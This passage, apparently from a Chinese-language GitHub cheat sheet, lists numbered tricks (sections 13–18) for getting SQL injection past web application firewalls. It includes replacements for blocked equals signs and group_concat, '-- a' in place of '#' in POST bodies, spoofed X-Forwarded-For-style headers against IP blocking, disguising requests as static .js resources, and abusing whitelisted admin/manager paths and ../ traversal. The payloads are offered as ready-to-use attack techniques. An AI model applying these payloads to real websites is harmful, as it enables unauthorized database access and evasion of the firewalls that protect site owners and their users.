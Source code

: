### 13.group_concat屏蔽

```
select group_concat("haha","niao");
select concat_ws(" ","haha","niao");
```

### 14.等号屏蔽

```sql
like rlike regexp <>

?id=1' or 1 = 1
-->
?id=1' or 1 like 1
?id=1' or 1 <> 1
```

### 15.post情况屏蔽#

```sql
id=3") or 1=1 -- a
```

使用–空格a可以在post情况下替代#

### 16.ip地址拦截

X-forwarded-for
X-remote-IP
X-Originating-IP
X-remote-addr
X-Real-Ip

### 17.修改静态资源

```html
http://www.xx.com/sql.php?id=1
```

可以替换为

```HTML
http://www.xx.com/sql.php/1.js?id=1
```

### 18.url白名单

为了防止防火墙误伤，部分waf内置白名单列表 admin manager system….

```sql
http://www.xx.com/sql.php/admin.php?id=1

http://www.xx.com/sql.php?xxxx=/manager/&b=攻击代码

http://www.xx.com/../../../../manager/../sql.php?id=1
```
